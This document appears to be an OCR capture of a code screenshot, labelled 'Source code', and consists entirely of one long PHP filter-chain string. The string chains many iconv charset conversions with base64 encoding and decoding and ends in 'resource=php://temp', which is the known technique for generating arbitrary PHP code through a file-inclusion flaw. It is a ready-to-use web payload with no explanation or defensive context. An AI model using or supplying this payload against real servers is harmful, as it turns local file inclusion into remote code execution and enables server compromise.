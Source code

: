 ```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
